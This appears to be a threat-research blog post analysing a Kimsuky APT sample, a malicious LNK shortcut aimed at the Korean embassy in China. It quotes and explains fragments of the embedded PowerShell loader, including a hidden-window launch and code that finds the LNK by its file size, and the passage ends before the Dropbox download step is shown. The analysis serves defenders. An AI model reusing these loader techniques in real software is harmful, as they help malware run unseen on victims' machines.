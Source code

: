 ```yaml
---
title: Kimsuky 4
date: 2024-04-10 15:55:00 +0800
categories: [Malware,APT,Kimsuky]
tags: [Kimsuky]
pin: true
---
```


### Introduction
![Kimsuky](https://www.nknews.org/pro/wp-content/uploads/sites/4/2023/06/North-Korean-wiretapping-illustration.jpg "Kimsuky")
*Kimsuky is back !!!!*

Finally today we look take a look at another Kimsuky sample that was uploaded by our fellow researcher [Neo](https://twitter.com/lightC07379408) on X. This time, the group set its sights on the Embassy of the Republic of Korea in China, leveraging a devious .lnk file as the initial attack vector . APT groups, like Kimsuky, exploit LNK files because they disguise malicious payloads as familiar shortcuts.  These seemingly harmless icons trick targets into clicking, which then triggers the download and execution of malware that steals sensitive information or grants unauthorized access to systems.

VT shows a result of 30/59. Looks like Kimsuky has scored well on the test today. We can see the Kimsuky family label already detected through the signatues.
![VT](https://cdn-images-1.medium.com/max/800/1*-aaDmytVmyEhvMtfxZ51Lw.png  "VT")
### LNK Parser

![LNK](https://cdn-images-1.medium.com/max/800/1*OyFbm-hEsMw9jEl6o7MHZg.png "LNK")

We will use a tool called [LnkParse](https://github.com/silascutler/LnkParse) that allows us to view the content of Windows shortcut (.LNK) files in a JSON format. We can see alot of powershell code that's being ran as command line on elevated permissions. Let's clean the script using word wrap and filter based on basic regex.
### Powershell Analysis

This PowerShell script is designed to download and execute a malicious payload from a Dropbox account. It employs various techniques to obfuscate its functionality and evade detection. Here's a breakdown of the code :

```powershell
/c powershell -windowstyle hidden -nop -NoProfile -NonInteractive  -c "$tmp = '%temp%';
```
- This line is used to launch PowerShell in a hidden window, without any profile loading, and with the execution of the subsequent code. The **%temp%** environment variable is assigned to the $tmp variable, which will be used later in the script.

```powershell
$lnkpath = Get-ChildItem *.lnk;
foreach ($path in $lnkpath) 
        { 
            if ($path.length -eq 0x0010F27C) { 
                $lnkpath = $path;
                }
        }
foreach ($item in $lnkpath) 
        { 
            $lnkpath = $item.Name;
        }

```
- This code is used to search for a specific LNK (Windows shortcut) file in the current directory. The script iterates through all LNK files and checks if their length matches a specific value (0x0010F27C). If a match is found, the file path is stored in the $lnkpath variable. This specific file length value is likely a hardcoded identifier for a particular malicious LNK file.